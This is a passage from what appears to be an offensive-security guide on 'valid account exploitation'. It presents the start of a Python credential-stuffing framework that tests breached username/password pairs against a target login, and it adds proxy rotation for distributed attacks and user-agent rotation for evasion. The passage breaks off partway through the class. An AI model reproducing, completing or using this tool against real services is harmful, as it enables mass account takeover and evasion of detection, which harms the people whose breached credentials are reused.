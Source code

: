 ```
---

## 🔑 Valid Account Exploitation

Compromising valid user credentials represents one of the most reliable initial access methods because it bypasses many security controls designed to detect malicious activity. Authentication as a legitimate user makes malicious actions appear normal, significantly delaying detection.

### Credential Stuffing at Scale

```python
#!/usr/bin/env python3
"""
Advanced Credential Stuffing Framework
Tests breached credentials against target authentication systems
Includes evasion, proxy rotation, and CAPTCHA handling
Author: Wan Mohamad Hanis bin Wan Hassan
"""

import requests
import concurrent.futures
import time
import random
from typing import List, Dict, Tuple
from dataclasses import dataclass
import json

@dataclass
class Credential:
    """Represents a username/password pair"""
    username: str
    password: str
    source: str  # Breach database source
    breach_date: str

class CredentialStuffer:
    """
    Enterprise-grade credential stuffing framework
    Implements sophisticated evasion and scaling techniques
    """
    
    def __init__(self, target_url: str, breach_database: str):
        self.target_url = target_url
        self.breach_database = breach_database
        self.credentials: List[Credential] = []
        self.valid_credentials: List[Tuple[str, str]] = []
        self.failed_attempts: int = 0
        self.successful_attempts: int = 0
        
        # Proxy rotation for distributed attacks
        self.proxies = self._load_proxy_list()
        self.current_proxy_index = 0
        
        # User agent rotation
        self.user_agents = [
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
            "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36",
            "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36",
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101",
        ]
    
    def _load_proxy_list(self) -> List[Dict]:
        """
```